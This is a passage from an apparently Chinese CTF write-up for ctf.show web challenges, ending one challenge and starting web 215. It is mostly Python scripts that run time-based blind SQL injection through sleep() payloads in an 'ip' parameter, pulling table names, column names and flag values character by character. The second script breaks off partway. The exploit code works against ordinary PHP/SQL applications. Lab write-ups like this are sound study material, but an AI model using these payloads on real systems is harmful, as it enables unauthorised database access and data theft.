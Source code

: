 ajax通过post请求/api/接口，有ip，debug的参数

hackbar发包，ip随便填，没有限制，debug的会影响页面是否回显。发包后返回了原sql语句`select id from ctfshow_info where ip = $_POST[ip]`，如果ip=sleep(3)，页面会缓慢的加载3秒后才响应，说明sleep执行成功

```python
import requests
import time
url = 'http://08d7032b-e019-444d-aeb7-2ba24dd99c9e.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名(当前数据库)
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆列
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆值
        payload = {
            'ip': f"1 or if(ascii(substr((select group_concat(flaga) from ctfshow_flagx),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j
```

## web 215

给`/api/`接口发请求`ip=1&debug=1`，返回了sql语句`select id from ctfshow_info where ip = '1';`，把ip的值放在了单引号里，直接闭合单引号，稍加修改上题的脚本接着打

```python
import requests
import time
url = 'http://46aefd94-5b7e-4d82-ae3d-3210a5d35606.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名 ctfshow_flagxc
```